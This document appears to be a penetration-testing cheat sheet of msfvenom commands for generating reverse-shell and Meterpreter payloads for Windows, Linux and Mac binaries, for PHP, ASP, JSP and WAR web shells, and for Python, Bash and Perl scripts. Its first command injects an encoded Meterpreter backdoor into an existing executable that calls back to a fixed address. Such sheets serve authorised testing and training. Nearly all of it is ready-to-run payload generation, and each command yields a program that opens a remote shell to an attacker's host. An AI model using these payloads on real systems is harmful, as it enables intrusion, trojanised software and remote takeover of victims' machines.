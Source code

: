 	msfvenom -a x86 -x <[FILE]> -k -p windows/meterpreter/reverse_tcp lhost=10.11.0.88 lport=443 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o <[FILE_NAME]>

# Binaries payloads

<b>Linux:</b>

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f elf > <[FILE_NAME.elf]>

<b>Windows:</b>

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f exe > <[FILE_NAME.exe]>

<b>Mac</b>

	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f macho > <[FILE_NAME.macho]>

# Web payloads

<b>PHP:</b>

	msfvenom -p php/meterpreter_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.php]>
	cat <[FILE_NAME.php]> | pbcopy && echo '<?php ' | tr -d '\n' > <[FILE_NAME.php]> && pbpaste >> <[FILE_NAME.php]>

<b>ASP:</b>

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f asp > <[FILE_NAME.asp]>

<b>JSP:</b>

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.jsp]>

<b>WAR:</b>

	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f war > <[FILE_NAME.war]>

# Scripting Payloads

<b>Python:</b>

	msfvenom -p cmd/unix/reverse_python LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.py]>

<b>Bash:</b>

	msfvenom -p cmd/unix/reverse_bash LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.sh]>

<b>Perl</b>

	msfvenom -p cmd/unix/reverse_perl LHOST=<[IP]> LPORT=<[PORT]> -f raw > <[FILE_NAME.pl]>

# Shellcode
For all shellcode see ‘msfvenom –help-formats’ for information as to valid parameters. Msfvenom will output code that is able to be cut and pasted in this language for your exploits.
